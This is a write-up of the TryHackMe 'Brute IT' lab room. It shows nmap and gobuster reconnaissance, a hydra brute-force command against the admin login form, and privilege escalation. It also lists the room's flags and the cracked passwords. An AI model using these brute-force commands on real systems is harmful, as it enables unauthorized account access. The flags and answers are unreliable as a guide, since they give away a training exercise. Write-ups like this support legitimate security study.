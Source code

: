 ```yaml
---
title: "Brute IT - TryHackMe"
category: "THM"
pubDate: 2021-01-27
description: "Learn how to brute, hash cracking and escalate privileges in this box!"
---
```

[TryHackMe | Brute IT](https://tryhackme.com/room/bruteit)

In this box you will learn about:

- Brute-force
- Hash cracking
- Privilege escalation

---

## Before attacking, let's get information about the target

### Search for open ports using nmap, how many ports are open?

```
Desktop/TryHackMe/brut_it » nmap -A -vv 10.10.93.226 -oN nmap_result
```

![](../images/bruteit/Untitled.png)

```
2 ports are open.
```

### What version of SSH is running?

```
OpenSSH 7.6p1
```

![](../images/bruteit/Untitled1.png)

### What version of Apache is running?

```
2.4.29
```

![](../images/bruteit/Untitled2.png)

### Which Linux distribution is running?

```
ubuntu
```

![](../images/bruteit/Untitled3.png)

### Search for hidden directories on web server, what is the hidden directory?

```
Desktop/TryHackMe/brut_it » gobuster -u 10.10.93.226 -w /opt/directory-list-2.3-medium.txt
```

![](../images/bruteit/Untitled4.png)

```
# Hidden directory 
/admin
```

---

## Find a form to get a shell on SSH.

### What is the user:password of the admin panel?

![](../images/bruteit/Untitled5.png)

As you can see, there is the user and password in the form data, we can use this to brute-force the login with hydra.

Hidden message

![](../images/bruteit/Untitled6.png)

```
# Hydra command (Pretty straightforward)
hydra -l admin -P /opt/rockyou.txt 10.10.93.226 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![](../images/bruteit/Untitled7.png)

```
# Credentials 
admin:xavier
```

### Crack the RSA key you found, what is John's RSA Private Key passphrase?

![](../images/bruteit/Untitled8.png)

```
# Password for the private key is
rockinroll
```

### user.txt

```
THM{a_password_is_not_a_barrier}
```

![](../images/bruteit/Untitled9.png)

### Web flag

![](../images/bruteit/Untitled10.png)

```
THM{brut3_f0rce_is_e4sy}
```

---

### Find a form to escalate your privileges, what is the root's password?

```
# Password for the root user
football
```

![](../images/bruteit/Untitled11.png)

### Root.txt

```
THM{pr1v1l3g3_3sc4l4t10n}
```

![](../images/bruteit/Untitled12.png)

